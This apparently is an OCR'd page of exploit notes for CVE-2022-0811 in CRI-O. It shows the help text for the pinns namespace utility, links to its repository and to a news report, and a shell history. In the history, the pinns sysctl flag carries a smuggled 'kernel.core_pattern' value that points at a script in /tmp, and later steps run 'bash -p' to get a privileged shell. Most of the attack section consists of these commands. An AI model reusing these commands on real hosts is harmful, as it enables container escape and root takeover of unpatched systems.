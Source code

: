 
https://github.com/saschagrunert/pinns.rs
https://thehackernews.com/2022/03/new-vulnerability-in-cri-o-engine-lets.html

#
#
#

    pinns v0.1.0-9-g0fccc8b
    A simple utility to pin Linux namespaces

USAGE:
    pinns [FLAGS] [OPTIONS]

FLAGS:
    -c, --cgroup     Pin the cgroup namespace
    -h, --help       Prints help information
    -i, --ipc        Pin the IPC namespace
    -n, --net        Pin the network namespace
    -p, --pid        Pin the PID namespace
    -u, --uts        Pin the UTS namespace
    -V, --version    Prints version information

OPTIONS:
    -d, --dir <DIRECTORY>      The directory for the pinned namespaces
                               [default: /tmp]
    -l, --log-level <LEVEL>    The logging level of the application [default: info]
                               [possible values: trace, debug, info, warn, error,
                               off]

##
##
##

More info at: https://github.com/saschagrunert/pinns.rs

#####################
#####################

    4  pinns -d /var/run -f 844aa3c8-2c60-4245-a7df-9e26768ff303 -s 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/THING/YOYO.sh #' --ipc --net --uts --cgroup
    5  man pinns ;; wall lolololol
    6  cd /usr/bin
    7  ls -la 
    8  ls -la | grep bash
    9  bash -p
   10  history
   11  ls
   12  cd /tmp/THING/
   
   
############ cve-2022-0811 ############
